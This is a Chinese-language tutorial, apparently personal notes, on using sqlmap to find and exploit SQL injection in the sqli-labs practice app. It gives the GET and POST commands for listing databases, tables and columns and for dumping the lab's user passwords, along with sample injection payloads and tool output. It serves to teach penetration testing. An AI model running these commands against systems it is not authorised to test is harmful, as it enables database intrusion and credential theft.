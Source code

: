 ## sqlmap 自动注入

### 简介：

&ensp; sqlmap 是一个开源渗透测试，它可以自动检测和利用SQL注入漏洞并接管数据库的过程。

#### GET 方法：

##### 简单参数：

* **-u**   &ensp; 检测注入点。

~~~makefile
sqlmap -u "http://127.0.0.1/sqli/Less-1/"
~~~

~~~makefile
09:46:59] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 3695=3695 AND 'Jypy'='Jypy

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 4202 FROM(SELECT COUNT(*),CONCAT(0x71717a6a71,(SELECT (ELT(4202=4202,1))),0x71716271BY x)a) AND 'ARVx'='ARVx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1396 FROM (SELECT(SLEEP(5)))qyXl) AND 'Pwzg'='Pwzg

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-6340' UNION ALL SELECT NULL,NULL,CONCAT(0x71717a6a71,0x58646f726d77634c4c7852676854555a616d6a47574
---
[09:47:09] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[09:47:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.100'
~~~



* **--dbs**  &ensp; 列出所有数据库。

~~~makefile
sqlmap -u "http://192.168.1.100/sqli/Less-1/?id=1" --dbs
~~~

~~~makefile
[09:49:56] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[09:49:56] [INFO] fetching database names
[09:50:01] [INFO] retrieved: 'information_schema'
[09:50:03] [INFO] retrieved: 'challenges'
[09:50:05] [INFO] retrieved: 'mysql'
[09:50:07] [INFO] retrieved: 'performance_schema'
[09:50:09] [INFO] retrieved: 'security'
[09:50:11] [INFO] retrieved: 'test'
available databases [6]:                                                                                          
[*] challenges
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] test
~~~



* **--current-db**  &ensp; 列出当前数据库的名字。

~~~makefile
sqlmap -u "http://192.168.1.100/sqli/Less-1/?id=1" --current-db
~~~

~~~makefile
[09:56:51] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[09:56:51] [INFO] fetching current database
current database: 'security'					# 当前数据库
~~~



* **-D**  &ensp; 指定一个数据库。
* **--tables**  &ensp; 列出表名。

~~~makefile
sqlmap -u "http://192.168.1.100/sqli/Less-1/?id=1" -D "security" --tables
~~~

~~~makefile
[10:05:07] [INFO] fetching tables for database: 'security'
[10:05:11] [INFO] retrieved: 'emails'
[10:05:13] [INFO] retrieved: 'referers'
[10:05:15] [INFO] retrieved: 'uagents'
[10:05:17] [INFO] retrieved: 'users'
Database: security                                                                                                
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
~~~



* **-T**  &ensp; 指定表名。
* **--columns**  &ensp; 列出所有的字段名。

~~~makefile
sqlmap -u "http://192.168.1.100/sqli/Less-1/?id=1" -D "security" -T "users" --columns
~~~

~~~makefile
Database: security                                                                                                
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
+----------+-------------+
~~~



* **-C** &ensp;  指定字段。
* **--dump**  &ensp;  列出字段内容。

~~~makefile
sqlmap -u "http://192.168.1.100/sqli/Less-1/?id=1" -D "security" -T "users" -C "username,password" --dump
~~~

~~~makefile
Database: security                                                                                                
Table: users
[13 entries]
+----------+------------+
| username | password   |
+----------+------------+
| Dumb     | Dumb       |
| Angelina | I-kill-you |
| Dummy    | p@ssword   |
| secure   | crappy     |
| stupid   | stupidity  |
| superman | genious    |
| batman   | mob!le     |
| admin    | admin      |
| admin1   | admin1     |
| admin2   | admin2     |
| admin3   | admin3     |
| dhakkan  | dumbo      |
| admin4   | admin4     |
+----------+------------+
~~~



#### POST 方法：

&ensp; post 自动注入基本和get自动注入差别不大，需要抓包。

**抓包工具：** Burp

**浏览器：** 	火狐 

**(1)** 打开浏览器随便输入值，这里我输入的是1，使用抓包工具将数据抓下来。

![1605704069977](C:\Users\goofiest\AppData\Roaming\Typora\typora-user-images\1605704069977.png)

可以看见抓包工具抓到了相关数据。

![1605704137004](C:\Users\goofiest\AppData\Roaming\Typora\typora-user-images\1605704137004.png)

**(2)** 将数据复制下来，以**txt**的格式保存下来。然后同 **sqlmap** 工具进行检测和注入。这里用的是**-r** 参数。

![1605705094458](C:\Users\goofiest\AppData\Roaming\Typora\typora-user-images\1605705094458.png)

**(3)** 后面的注入和 **get** 注入一样，跑命令。

 ~~~makefile
sqlmap -r post01.text --dbs		# 列出所有数据库。

sqlmap -r post01.text --current-db 		# 列出当前数据库的名字。

sqlmap -r post01.text -D "security" --tables	# 查询指定数据库的表名

等等
 ~~~


